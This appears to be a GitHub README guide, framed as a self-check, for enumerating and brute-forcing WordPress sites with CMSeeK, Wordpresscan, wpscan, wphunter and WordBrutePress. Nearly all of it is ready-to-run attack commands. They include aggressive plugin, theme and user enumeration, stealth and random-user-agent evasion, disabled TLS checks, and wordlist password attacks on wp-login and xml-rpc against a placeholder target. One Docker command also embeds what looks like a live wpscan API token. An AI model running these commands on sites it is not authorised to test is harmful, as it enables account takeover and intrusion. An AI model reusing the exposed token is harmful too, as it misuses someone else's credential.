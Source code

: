 # Inspired in C4N6

This guide 'll help U to undertsand if your wordpress webapp is vulnerable to enumerate and bruteforce with different tools the below sub components of this cms.

- credentials
- plugins
- themes
- timthumbs

#

Login as root

    su

# Identify the CMS

And provide the report of what harvested and the vulnerabilities

    cd /usr/share && git clone https://github.com/Tuhinshubhra/CMSeeK && cd CMSeeK && sudo python3 cmseek.py --update

#

    sudo python3 cmseek.py -u https://yourtarget.com --user-agent random -r

# wordpresscan

    cd /usr/share && git clone https://github.com/swisskyrepo/Wordpresscan.git && pip install tornado

#

    cd Wordpresscan && sudo python wordpresscan.py -u website.com --update --threads 37 --random-agent --brute --fuzz

# wpscan

    sudo apt-get install libcurl4-openssl-dev libxml2 libxml2-dev libxslt1-dev ruby-dev build-essential libgmp-dev zlib1g-dev -y && gem install wpscan && wpscan --update && wpscan --version

# Install SecList

https://github.com/4k4xs4pH1r3/SecLists

#

In Kali

    wpscan --api-token yourtoken --url https://yourtaget.com/ --exclude-content-based --random-user-agent --force --stealthy --ignore-main-redirect --detection-mode aggressive --interesting-findings-detection aggressive --wp-version-all --wp-version-detection aggressive --ua --rua -t 10 --throttle 10 --disable-tls-checks --force --update --wp-content-dir /wp-content -e --enumerate vp,vt,tt,cb,dbe,u,m --db-exports-detection aggressive --config-backups-detection aggressive --main-theme-detection aggressive --themes-detection aggressive --medias-detection aggressive --plugins-detection aggressive --plugins-version-detection aggressive -v --verbose --no-banner --users-detection aggressive -U ~/users -P /usr/share/wordlists/darkc0de.lst --password-attack wp-login -o ./wpscandebuglog.txt

#

    wpscan --api-token yourtoken --url https://yourtaget.com/ --exclude-content-based --random-user-agent --force --stealthy --ignore-main-redirect --wp-version-all --ua --rua -t 10 --throttle 10 --disable-tls-checks --force --update --wp-content-dir /wp-content -e --enumerate vp,vt,tt,cb,dbe,u,m --db-exports-detection aggressive --config-backups-detection aggressive -v --verbose --no-banner --users-detection aggressive -U ~/users -P /usr/share/wordlists/darkc0de.lst --password-attack wp-login -o ./wpscandebuglog.txt

#

    wpscan --api-token --url https://yourtaget.com/ --exclude-content-based -o ./wpscandebuglog3.txt --random-user-agent --force --stealthy --plugins-detection aggressive

#

#

#

In Parrot

#

    sudo wpscan --url https://yourtarget.com/wp-admin --update --user-agent --random-agent --follow-redirection --batch --cache-dir /usr/share/wpscan/cache --wordlist /usr/share/dirbuster/wordlists/darkc0de.lst --usernames ~/users.txt --threads 50 --throttle 10 --enumerate p t u tt --debug-output 2>debug.log --wp-content-dir /wp-content --force --disable-tls-checks --disable-referer --disable-accept-header --no-banner --verbose

In Docker

    docker run -it --rm wpscanteam/wpscan --url https://yourtarget.com/wp-admin --update --force -t 37 --rua --detection-mode aggressive --api-token rXbXUKWwDK6FzlsTg4ydb3IQ1SW4snak0hP6dkO1YzA --detection-mode aggressive --stealthy --password-attack wp-login --plugins-detection aggressive --plugins-version-detection aggressive -v --verbose -e --enumerate vp,vt,tt,cb,dbe,u,m

# wphunter

    cd /usr/share && git clone https://github.com/Jamalc0m/wphunter.git && cd wphunter

#

    sudo php wphunter.php http://yourtarget.com

# WordBrutePress

    apt install git -y && git clone https://github.com/4k4xs4pH1r3/bbh.git /usr/share/wordlists && cd /usr/share/wordlists/wordlists && mv *.* /usr/share/wordlists && mv dirb dirbuster fern-wifi wfuzz /usr/share/wordlists && rm -r /usr/share/wordlists/wordlists && git clone https://github.com/danielmiessler/SecLists.git /usr/share/SecLists && cd && apt install neofetch screenfetch -y && neofetch && cd /usr/share && git clone https://github.com/The404Hacking/WordBrutePress && pip install httplib2 && cd WordBrutePress

#

    python2 /usr/share/WordBrutePress/WordBrutePress.py -t http://yoursite.co/wp/ -u username -w /usr/share/SecLists/Passwords/darkc0de.lst

#

[X] You must insert http:// or https:// protocol#

#Standard login brute use this command=
-S, --standard

Xml-rpc login brute use this command=

-X, --xml-rpc

#

# by C4N6
